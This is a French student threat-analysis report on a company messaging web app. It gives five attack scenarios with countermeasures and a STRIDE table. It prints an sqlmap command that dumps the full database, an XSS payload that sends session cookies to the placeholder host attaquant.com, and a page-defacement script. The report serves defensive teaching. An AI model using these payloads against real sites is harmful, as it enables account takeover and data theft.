

# STI - Projet 2 - Analyse de menaces

> Auteurs : Robin Gaudin - Lev Pozniakoff
>
> Date : 20.01.2022

## Introduction

Ce document fait office d'analyse de menace de l'état actuel de la sécurité de l'application Web du projet 1 de STI. Plusieurs éléments seront donc examinés pour déterminer quelles sont les menaces sur l'application, comment est-ce qu'elles pourraient être exploitées par un attaquant et qu'elles sont les contre-mesures à mettre en place.

Cette application Web est un système de messagerie pour une entreprise, permettant aux collaborateurs s'authentifiant auprès du service à l'aide d'un nom d'utilisateur et d'un mot de passe, de communiquer avec les autres collaborateurs en pouvant envoyer, lire, répondre ou supprimer des messages. Le mot de passe peut également être modifié par le collaborateur.

Un collaborateur dit administrateur aura les mêmes fonctionnalités qu'un collaborateur standard, avec en plus, une gestion des utilisateurs. En effet, il pourra ajouter, modifier ou supprimer les collaborateurs.

Cette application est donc contrainte à la sécurité, puisqu'un attaquant pourrait vouloir visualiser les messages d'autres collaborateurs, afin, par exemple, d'obtenir des informations sur l'entreprise ou sur les collaborateurs. Un collaborateur pourrait également se faire usurper son identité, ou certaines actions pourraient être exécutées sans que l'utilisateur ne soit au courant.

## Description du système

### Objectifs du système

- Les collaborateurs d'une entreprise doivent pouvoir s'envoyer des messages entre eux de manière sécurisée
- Les collaborateurs peuvent également lire, répondre et supprimer les messages qu'ils ont reçu
- Un rôle d'administrateur est attribué à certains des collaborateurs et pourront, en plus des fonctionnalités d'un collaborateur standard, ajouter, modifier ou supprimer d'autres collaborateurs

### Hypothèses de sécurité

- Les administrateurs doivent être de confiance, tant au niveau applicatif que sur le réseau
- Un serveur applicatif ainsi que le système d'exploitation de confiance

### Exigences de sécurité

Afin que l'application puisse être dite "sûre", elle doit satisfaire les critères suivants :

- Le nom d'utilisateur doit être unique (unicité)
- L'envoi, la lecture, la suppression et la réponse d'un message ne peut être faite que part un utilisateur connecté (authentification)
- La lecture, la suppression et la réponse à un message peut être faite uniquement par l'utilisateur qui a reçu le message (confidentialité)
- Le contenu du message ne doit pas pouvoir se faire modifier une fois qu'il a été envoyé (intégrité)
- Le mot de passe doit être modifiable uniquement par l'utilisateur connecté ou un administrateur (intégrité)
- Le rôle et la validité d'un utilisateur doit être modifiable  uniquement par un administrateur (intégrité)
- Les informations des utilisateurs doivent être protégées (privacy)
- Afin de se connecter, un utilisateur doit avoir un compte. Celui-ci doit être actif (contrôle d'accès)
- La gestion des utilisateurs (ajout, modification, suppression) doit être accessible que par les administrateurs (contrôle d'accès)
- Le site Web doit être disponible 99% du temps (disponibilité) 

### Eléments du système

- Base de données contenant les utilisateurs (nom d'utilisateur, mot de passe, validité, role) et les messages (id, date, envoyeur, receveur, sujet, message)
- Application Web

### Rôle des utilisateurs

- Utilisateur non-authentifié : Considéré comme un visiteur, il peut uniquement accéder à la page de login et peut se connecter afin de devenir un utilisateur authentifié
- Utilisateur authentifié : Collaborateur de l'entreprise qui s'est connecté
- Administrateur du site : Collaborateur de l'entreprise qui s'est connecté, ayant le rôle d'administrateur
- Administrateur système : Utilisateurs n'ayant pas de compte sur l'application Web, mais ayant accès aux machines qui hébergent l'application et la base de données

### Actifs à haute valeur

- Base de données
  - Confidentialité, sphère privée
  - Intégrité
  - Perte de réputation en cas d'incident
- Infrastructure
  - Intégrité, disponibilité
  - Perte de disponibilité, réputation en cas d'incident

### DFD



### Périmètre de sécurisation

Dans le cadre de ce projet, uniquement l'application Web est prise en compte pour cette analyse de menaces.

## Identification des sources de menaces

- Hackers, script-kiddies
  - Motivation : amusement, gloire
  - Cible : application web, serveur, base de données
  - Potentialité : haute
- Cybercrime (spam, maliciels)
  - Motivation : financier (revente d'informations)
  - Cible : voler les identifiants des collaborateurs, récupération d'informations dans les messages
  - Potentialité : moyenne
- Utilisateurs malins
  - Motivation : accès aux informations et messages des autres collaborateurs, accès aux fonctionnalités administrateur, amusement
  - Cible : accès non autorisé à des messages, usurpation d'identité, élévation de privilèges
  - Potentialité : moyenne
- Concurrent
  - Motivation : obtenir des informations dans les messages concernant l'entreprise, déranger l'entreprise
  - Cible : confidentialité, accès non autorisé à des messages
  - Potentialité : moyenne

## Identification des scénarios d'attaques

### Scénario d'attaque 1 :

Obtention d'informations contenues dans la base de données (injection SQL)

- Impact sur l'entreprise : haut

- Source de la menace : hacker, cybercrime, concurrent

- Motivation : amusement, financier, vol d'informations

- Elément cible : base de données

- Scénario d'attaque :

  - Dans un formulaire (celui de connexion), tenter d'insérer comme nom d'utilisateur un simple guillemet et observer le résultat

  - Si un simple message d'erreur concernant le login est affiché, le champ n'est certainement pas vulnérable. Mais si un exception est levée par le serveur, alors ce champ est peut-être vulnérable

  - Dans le cas favorable, on va donc utiliser un outil automatique d'insertion SQL pour tenter de récupérer des informations de la base de données, par exemple sqlmap

  - Un exemple de commande serait :

    ```bash
    sqlmap --url=http://localhost:8080/index.php --data="username=test&password=test" -p "username" --technique=T --risk=3 --level=5 --dump-all
    ```

    Attributs : url (url vers la page de login), data (paramètres transmis au serveur à travers la requête), p (paramètre à tester), technique=T (time-based blind attack), risk + level (le plus haut niveau de test de l'attaque), dump-all (récupération de la structure et les données de la base de données)

-  Contremesures :

  - Préparation des requêtes, pour tous les paramètres transmis à la base de données
  - Hachage des mots de passes, afin qu'en cas de récupération des informations, ils ne soient pas utilisables

### Scénario d'attaque 2 :

Suppression d'un compte (CSRF)

- Impact sur l'entreprise : moyen
- Source de la menace : hacker, script-kiddies
- Motivation : amusement, déranger l'entreprise
- Elément cible : compte d'un collaborateur
- Scénario d'attaque :
  - Il faut en premier lieu trouver l'endpoint qui permet d'envoyer la requête de suppression d'un utilisateur. Pour ce faire, on va utiliser un scanner de contenu (dirb par exemple)
  - Trouver le paramètre nécessaire pour supprimer un utilisateur. Si on a accès à la messagerie, on peut essayer d'inspecter le code html afin de trouver des informations
  - Préparer le payload en spécifiant l'endpoint et le(s) paramètre(s) nécessaires pour supprimer l'utilisateur
  - Transmettre le payload à une victime afin qu'il clique sur le lien qui va exécuter la requête vers le serveur
-  Contremesures :
  - Ajout de token anti-CSRF dans les formulaires

### Scénario d'attaque 3 :

Récupération d'un compte administrateur (XSS)

- Impact sur l'entreprise : moyen
- Source de la menace : hacker, script-kiddies, cybercrime
- Motivation : amusement, financier, accès à la gestion des administrateurs
- Elément cible : compte d'un collaborateur administrateur
- Scénario d'attaque :
  - Lors de l'écriture d'un nouveau message par un collaborateur malveillant, on insère comme sujet ou message un payload qui permettra l'attaque XSS. Ce message doit être envoyé à un administrateur
  
  - Si aucun sanitizer n'a été mis en place pour gérer les données, alors l'attaque est possible
  
  - On va donc insérer dans l'un des champs un payload permettant l'attaque, par exemple :
  
    ```html
    <script>
        document.location="http://attaquant.com/get.php?v=" + document.cookie;
    </script>
    ```
  
  - On va ensuite attendre que l'administrateur se connecte à sa messagerie pour que ses identifiants soient envoyés sur le site de l'attaquant
-  Contremesures :
  - Implémenter un sanitizer sur les entrées utilisateurs afin d'encoder les chaînes de caractères avant de les ajouter dans la base de données

### Scénario d'attaque 4 :

Usurpation d'identité

- Impact sur l'entreprise : moyen
- Source de la menace : hacker, script-kiddies, cybercrime, utilisateurs malins, concurrent
- Motivation : amusement, accès aux informations
- Elément cible : base de données, social engineering
- Scénario d'attaque :
  - Un attaquant arrivant à récupérer des accès administrateur à l'aide de l'attaque précédente pourrait tenter cette attaque, afin de se créer un compte
  - En connaissant le nom des autres utilisateurs, un attaquant peut créer un compte avec un nom similaire pour tenter de manipuler les autres utilisateurs, par exemple avec un caractère invisible tel que l'espace
  - Une fois le compte créé, il pourra intéragir avec les autres utilisateurs et tenter d'obtenir des informations
  - Les autres utlisateurs ne devraient pas remarquer qu'ils ne communiquent pas avec la bonne personne
-  Contremesures :
  - Limiter les caractères utilisables pour le nom d'utilisateur

### Scénario d'attaque 5 :

Défacement du site (XSS)

- Impact sur l'entreprise : faible
- Source de la menace : hacker, script-kiddies, concurrent
- Motivation : amusement
- Elément cible : application Web
- Scénario d'attaque :
  - Insertion de script afin de modifier le contenu de l'application Web
  
  - Comme pour l'autre attaque XSS, on va cette fois insérer un script afin de remplacer des éléments du site, pour déranger l'utilisateur
  
  - On va par exemple insérer un script de ce type :
  
    ```html
    <script>
        document.body.innerHTML="<h1>Attack on the site</h1>";
    </script>
    ```
  
  - Cela va remplacer le contenu entier de la balise <body> de la page Web afin de faire peur à l'utilisateur
-  Contremesures :
  - Implémenter un sanitizer sur les entrées utilisateurs afin d'encoder les chaînes de caractères avant de les ajouter dans la base de données

### STRIDE

- Spoofing :
  - Récupération d'un compte administrateur (Scénario 3)
- Tampering :
  - Obtention d'informations contenues dans la base de données (Scénario 1)
- Repudiation :
  - Usurpation d'identité (Scénario 4)
- Information disclosure :
  - Non pris en compte pour cette analyse
- Denial of service :
  - Défacement du site (Scénario 5)
- Elevation of privileges :
  - Suppression d'un compte (Scénario 2)
  - Récupération d'un compte administrateur (Scénario 3)

|                          | S    | T    | R    | I    | D    | E    |
| ------------------------ | ---- | ---- | ---- | ---- | ---- | ---- |
| Collaborateur            | X    |      | X    | -    |      | X    |
| Administrateur           | X    |      | X    | -    |      | X    |
| Base de données          | X    | X    | X    | -    | X    | X    |
| Application Web          |      | X    | X    | -    | X    |      |
| Intéractions (data flow) |      | X    |      | -    |      |      |

## Contremesures

Plusieurs contremesures ont été implémentées sur l'application Web afin de contrer certaines attaques et de rendre cette application plus "sûre". Voici la liste des opérations effectuées :

- Critère d'acceptation sur le mot de passe (entre 8 et 16 caractères, 1 majuscule miniumu, 1 minuscule minimum, 1 chiffre minimum, un caractère spécial minimum)
- Hachage des mots de passes afin qu'on ne puisse pas les utiliser en cas de récupération de la base de données
- Les requêtes SQL sont préparées (empêche les injections SQL)
- Ajout de tokens anti-CSRF aux formulaires
- Les entrées utilisateurs sont sanitizées avant de les insérer dans la base de données (empêche les attaques XSS)
- Les entrées utilisateurs sont vérifiées (paramètres POST existantes et non vides)
- Vérification des autorisations d'accès aux fonctionnalités (utilisateur non-authentifié - utilisateur authentifié - administrateur)

## Conclusion

Cela a déjà été précisé dans ce rapport, mais il est important de souligner le fait que ces contremesures n'assurent pas une sécurité à 100%, mais minimise les risques d'attaque sur l'application Web uniquement.

De multiples autres scénarios d'attaques pourraient être faits, nous avons décidé d'en choisir quelques uns, afin également d'avoir une vision de la grille STRIDE et de se rendre compte de l'impact de certaines attaques.

Les contremesures citées ci-dessus ont été implémentées dans le code source de l'application.
